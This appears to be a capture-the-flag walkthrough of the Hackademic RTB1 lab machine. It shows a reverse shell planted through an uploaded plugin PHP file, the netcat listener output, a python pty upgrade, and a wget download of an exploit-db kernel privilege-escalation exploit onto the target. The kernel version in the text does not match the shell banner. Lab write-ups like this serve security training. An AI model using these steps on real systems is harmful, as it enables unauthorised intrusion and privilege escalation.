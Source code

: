 
So now we have a few user creds! By logging in as GeorgeMiller, we see that he is one of the few users with upload permissions. So let's do the ol' replace-the-plugin-PHP-file-with-our-reverse-shell-code trick:

![](hackademic.rtbc1_2.png)

```
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.1.101] from (UNKNOWN) [192.168.1.100] 38095
Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP xxx xxx x xx:xx:xx EST xxxx i686 i686 i386 GNU/Linux
 xx:xx:xx up 37 min,  0 users,  load average: 0.00, 0.02, 0.02
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=489(apache) groups=489(apache)
sh: no job control in this shell
sh-4.0$
```

Splendid, this works everytime. Another interesting way is to use `weevely` as it contains useful auditing functionality built-in. As always, let's get a proper pseudo-tty shell and view the /home directory:

```
sh-4.0$ python -c "import pty;pty.spawn('/bin/bash')"
python -c "import pty;pty.spawn('/bin/bash')"

bash-4.0$ ls -l
total 4
drwx------ 24 p0wnbox.Team p0wnbox.Team 4096 Jan  9  2011 p0wnbox.Team
```

There seems to be a user named `p0wnbox.Team`, but we don't have permissions to enter the directory. However, `uname -r` tells us that the kernel version is 2.6.36.5, so after doing some searching, I came across a 'RDS' privilege escalation exploit on exploit-db. `searchsploit` stores a local repository of exploit-db's PoC codes as well.

```
sh-4.0$ wget https://www.exploit-db.com/download/15285.c
--xxxx-xx-xx xx:xx:xx--  https://www.exploit-db.com/download/15285.c
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
WARNING: certificate common name `*.sucuri.net' doesn't match requested host name `www.exploit-db.com'.
HTTP request sent, awaiting response... 200 OK
Length: 7155 (7.0K) [application/txt]
Saving to: `15285.c'

     0K ......                                                100% 80.8M=0s

```